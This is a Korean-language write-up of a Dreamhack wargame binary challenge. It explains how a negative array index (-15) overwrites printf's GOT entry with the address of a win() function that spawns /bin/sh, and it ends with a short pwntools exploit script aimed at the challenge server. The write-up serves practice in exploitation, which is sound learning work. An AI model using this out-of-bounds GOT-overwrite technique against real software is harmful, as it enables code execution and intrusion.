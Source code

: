 ```yaml
---
tags: [dreamhack, wargame, write-up]		
published : false
---
```


![Image](/assets/img/p_rho/image1.png)

![Image](/assets/img/p_rho/image2.png)

printf@GOT = 0x404008

buf 시작 주소 = 0x404080

![Image](/assets/img/p_rho/image3.png)

![Image](/assets/img/p_rho/image4.png)

buf         = 0x404080
printf@GOT  = 0x404008

차이: 0x404080 - 0x404008 = 0x78 = 120 bytes

배열 인덱싱은 타입 크기 단위로 계산됨

buf[0]의 타입은 unsigned long

x86_64 시스템에서 sizeof(unsigned long) = 8

그러므로 buf[i]는 실제로 buf + (i * 8)만큼 떨어진 주소에 접근함

따라서  오프셋으로 쓰려면 덮고 싶은 바이트 오프셋 / 8해서 인덱스를 계산해야 함 

```c
unsigned __int64 win()
{
  char *argv[3]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  argv[0] = "/bin/sh";
  argv[1] = 0;
  execve("/bin/sh", argv, 0);
  return v2 - __readfsqword(0x28u);
}
```

내부에 win 함수가 있으므로 win함수로 덮어주면 된다.

주소는 4011b6

![Image](/assets/img/p_rho/image5.png)

---

exploit.py

```c
from pwn import *

#p = process("./prob")
p =  remote("host3.dreamhack.games",18578)

p.sendlineafter(b"val: ",b"-15")
p.sendlineafter(b"val: ",str(0x00000000004011B6).encode('ascii'))

p.interactive()
```